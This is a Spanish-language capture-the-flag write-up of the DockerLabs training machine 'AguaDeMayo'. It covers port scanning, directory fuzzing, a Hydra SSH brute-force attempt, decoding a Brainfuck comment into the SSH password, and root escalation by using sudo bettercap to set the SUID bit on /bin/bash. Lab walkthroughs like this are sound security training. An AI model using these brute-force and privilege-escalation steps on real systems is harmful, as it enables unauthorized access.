 # 🧪 Informe de Pentesting – Máquina *AguaDeMayo*

* **Nombre**: AguaDeMayo
* **Nivel**: Fácil
* **Objetivo**: Obtener acceso a la máquina como root a través de explotación de servicios y técnicas de escalada de privilegios.
* **Logo**:
![Logo](AguaDeMayo/Imagenes/Logo.png)

---

## 🐳 Despliegue de la Máquina

Descargamos la máquina desde la página oficial de DockerLabs y procedemos a descomprimirla:

```bash
unzip aguademayo.zip
```

Luego, la desplegamos utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh aguademayo.tar
```

Imagen del despliegue exitoso:
![Despliegue](./AguaDeMayo/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Verificamos que la máquina esté activa con un simple ping:

```bash
ping -c4 172.17.0.2
```

Resultado del ping:
![Ping](./AguaDeMayo/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Utilizamos Nmap para descubrir todos los puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

El resultado revela que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.
![Puertos](./AguaDeMayo/Imagenes/Puertos.jpeg)

---

## 🧪 Detección de Servicios

Con mi script personalizado `extractPorts` extraigo automáticamente los puertos abiertos y la IP, luego realizo un escaneo más profundo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Esto nos permite obtener información detallada sobre los servicios y versiones activas.
![Servicios](./AguaDeMayo/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accediendo al puerto 80 en el navegador, se muestra la página por defecto de Apache2:

![Página Web](./AguaDeMayo/Imagenes/Pagina.jpeg)

Realizamos fuzzing con `gobuster` para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Se descubre el directorio `/images`:
![Gobuster](./AguaDeMayo/Imagenes/Gobuster.jpeg)

Al acceder a `http://172.17.0.2/images/`, encontramos un archivo JPG llamado `agua_ssh.jpg`:
![Directorio](./AguaDeMayo/Imagenes/Directorio.jpeg)

---

## 🧾 Análisis de Metadatos

Usamos `exiftool` para analizar los metadatos del archivo JPG:

```bash
exiftool agua_ssh.jpg
```

No se encuentra información útil. También se realiza otro escaneo con Gobuster, pero no se identifican más recursos relevantes.
![Imagen](./AguaDeMayo/Imagenes/Imagen.jpeg)

---

## 🔐 Intento de Fuerza Bruta SSH

Dado el nombre de la imagen `agua_ssh.jpg`, se prueba con el usuario `agua` utilizando Hydra para encontrar la contraseña, sin éxito:

```bash
hydra -l agua -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

---

## 🧠 Análisis del Código Fuente

Revisando el código fuente HTML de la página principal, encontramos un comentario sospechoso:

```html
<!-- +[----->+++<]>+.+++++++.--------.+++.------.--------. -->
```

Este es código en **Brainfuck**, un lenguaje de programación esotérico. Lo traducimos en línea y obtenemos:

```
bebeaguaqueessano
```

Este resultado parece ser una contraseña.

![Decodificación](./AguaDeMayo/Imagenes/Codificar.jpeg)

---

## 🔑 Acceso SSH

Con las credenciales:

* **Usuario**: agua
* **Contraseña**: bebeaguaqueessano

Accedemos exitosamente al servicio SSH:

```bash
ssh agua@172.17.0.2
```

![Acceso SSH](./AguaDeMayo/Imagenes/SSh.jpeg)

---

## 🚀 Escalada de Privilegios

Usamos `sudo -l` para verificar los privilegios del usuario `agua`:

```bash
sudo -l
```

Descubrimos que puede ejecutar `bettercap` como root sin contraseña. Aprovechamos esto para habilitar el bit SUID en `/bin/bash`:

1. Iniciamos bettercap como root:

   ```bash
   sudo bettercap
   ```

2. Dentro de bettercap ejecutamos:

   ```bash
   !/usr/bin/chmod u+s /bin/bash
   ```

3. Salimos de bettercap y ejecutamos:

   ```bash
   /bin/bash -p
   ```

Esto nos proporciona una shell como root, gracias al bit SUID activado.

![Root Access](./AguaDeMayo/Imagenes/Root.jpeg)

---

## ✅ Conclusión

La máquina *AguaDeMayo* representa un excelente escenario para practicar técnicas básicas de:

* Enumeración web
* Análisis de metadatos
* Reconocimiento de lenguajes ocultos (Brainfuck)
* Acceso a través de SSH
* Escalada de privilegios con binarios permitidos como sudo

Gracias al acceso permitido a `bettercap` y la posibilidad de establecer permisos SUID, se logra obtener una shell como root, completando así el reto.
